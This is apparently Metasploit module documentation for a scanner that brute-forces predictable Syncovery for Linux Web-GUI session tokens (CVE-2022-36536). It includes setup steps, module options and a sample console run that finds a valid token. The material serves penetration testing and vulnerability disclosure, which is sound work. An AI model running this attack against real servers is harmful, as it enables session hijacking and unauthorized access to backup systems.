 ## Syncovery For Linux Web-GUI Session Token Brute-Forcer

This module attempts to brute-force a valid session token for the Syncovery File Sync & Backup Software Web-GUI by generating all possible tokens, for every second between 'DateTime.now' and the given X day(s). By default today and yesterday (DAYS = 1) will be checked. If a valid session token is found, the module stops. The vulnerability exists, because in Syncovery session tokens are basically just `base64(m/d/Y H:M:S)` at the time of the login instead of a random token.
If a user does not logout, the token stays valid until next reboot. Note that the mobile version of the WEB GUI as well as the obsolete branch 8 of Syncovery do not have a logout button.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

### Setup

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get a valid token.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > options

Module options (auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DAYS       1                yes       Check today and last X day(s) for valid session token
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                no        The path to Syncovery
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > run

[*] 192.168.178.26:8999 - Starting Brute-Forcer
[+] 192.168.178.26:8999 - Valid token found: 'MDkvMDYvMjAyMiAxMzo0NDoxMg=='
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Limitations
In Syncovery v9.x tokens get invalidated after the user logs out. In this case no valid token can be found.